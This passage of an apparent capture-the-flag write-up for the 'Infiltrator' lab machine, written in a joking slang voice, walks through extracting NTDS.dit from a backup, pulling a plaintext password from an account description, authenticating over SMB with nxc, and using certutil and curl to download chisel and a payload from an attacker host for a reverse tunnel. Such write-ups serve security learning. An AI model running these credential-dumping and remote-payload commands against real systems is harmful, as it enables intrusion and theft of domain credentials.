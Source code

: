 We use that shiny new key to unlock the drive like we’re defusing a bomb in a B-movie, and what do we find?

Oh, just a full Windows Server 2012 backup sittin’ in the Documents folder of `Administrator`. You know, just casual enterprise-grade secrets lying around like loose change. And inside that backup? The crown jewel: `NTDS.dit` and the registry hives. Time to fire up `ntdsdotsqlite`, turn that chunky binary blob into an actual database we can poke at like the gremlins we are:

```console
$ ntdsdotsqlite NTDS.DIT --system SYSTEM -o NTDS.sqlite

sqlite3 NTDS.sqlite
sqlite> select description from user_accounts;
Built-in account for administering the computer/domain
Built-in account for guest access to the computer/domain
Key Distribution Center Service Account
User Security and Management Specialist
l@n_M@an!1331
Head of Development Department
```

We found the password for the `lan_management` account.

```console
$ nxc smb 10.10.11.31 -u 'lan_managment' -p 'l@n_M@an!1331' -d infiltrator.htb
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\lan_managment:l@n_M@an!1331
```

#### Bloodhound LAN_MANAGMENT to INFILTRATOR_SVC
So now that we deep in this bish, rootin' around like cyber raccoons, we stumble on a shiny lil gem: the gMSA password for `infiltrator_svc$`. Yeah, you heard me—**group managed service account** type beat. The kind of account that's like, “I rotate my password so you can’t get me,” but guess what? We got you, bozo.

![](/assets/images/writeups/infiltrator/BH-LAN.png)

We ain't talking basic creds here—this is like finding the keys to a vending machine **and** the cash drawer **and** the building it's in. You ever seen Windows hand out secrets like this? This is that _you-left-your-safe-open-and-taped-the-combo-to-it_ energy.


[dc01.infiltrator.htb]: PS C:\Users\M.harris\Documents> certutil -f -urlcache http://10.10.14.7:8000/chisel.exe C:\Windows\Temp\chisel.exe
[dc01.infiltrator.htb]: PS C:\Windows\Temp> .\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14406
[10.10.11.31]: PS C:\Windows\Temp> curl.exe http://10.10.14.7:8000/payload.exe -o payload.exe